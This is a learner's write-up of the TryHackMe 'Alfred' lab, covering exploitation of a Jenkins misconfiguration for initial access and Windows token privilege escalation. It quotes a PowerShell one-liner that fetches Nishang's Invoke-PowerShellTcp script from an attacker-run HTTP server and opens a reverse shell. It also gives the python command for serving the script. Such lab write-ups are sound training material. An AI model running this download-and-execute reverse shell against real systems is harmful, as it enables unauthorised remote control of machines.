 <p><h3> Welcome to the <em>TryHackMe</em></h3>
<h1>Offensive Pentesting learning path> Advanced Exploitation</h1>
<h2>Alfred</h2>
<p>Exploit Jenkins to gain an initial shell, then escalate your privileges by exploiting Windows authentication token.</p>
<br>
October 19, 2024<br><br>
Type: Easy<br>
Link: https://tryhackme.com/r/room/alfred</p><br>

![image](https://github.com/user-attachments/assets/89ba97a4-d79a-4c6d-8c86-dab1becb8e05)


<p><h2>Task 1 - Initial Access</h2>
In this room, we'll learn how to exploit a common misconfiguration on a widely used automation server(Jenkins - This tool is used to create continuous integration/continuous development pipelines that allow developers to automatically deploy their code once they made changes to it). After which, we'll use an interesting privilege escalation method to get full system access. <br><br>
Since this is a Windows application, we'll be using <strong>Nishang</strong> to gain initial access. The repository contains a useful set of scripts for initial access, enumeration and privilege escalation. In this case, we'll be using the <strong>reverse shell scripts</strong>.<br><br>
Please note that this machine <strong>does not respond to ping</strong> (ICMP) and may take a few minutes to boot up.

In the foloowing link you´ll find more information about Nishang.https://github.com/samratashok/nishang<br>
And in tis other link we will find more abour reverse shell scripts. https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1</p>
<br>
> 1.1 - <em>How many ports are open? (TCP only)?</em><br>
>> <strong>Get-New</strong><br>
<br>
> 1.2 - <em>What is the username and password for the login panel? (in the format username:password)</em><br>
>> <strong>Get-New</strong><br>

<p>Find a feature of the tool that allows you to execute commands on the underlying system. When you find this feature, you can use this command to get the reverse shell on your machine and then run it: <code>powershell iex</code> (<em>New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port</em></p>
<p>You first need to download the Powershell script and make it available for the server to download. You can do this by creating an http server with python: <code>python3 -m http.server</code></p>


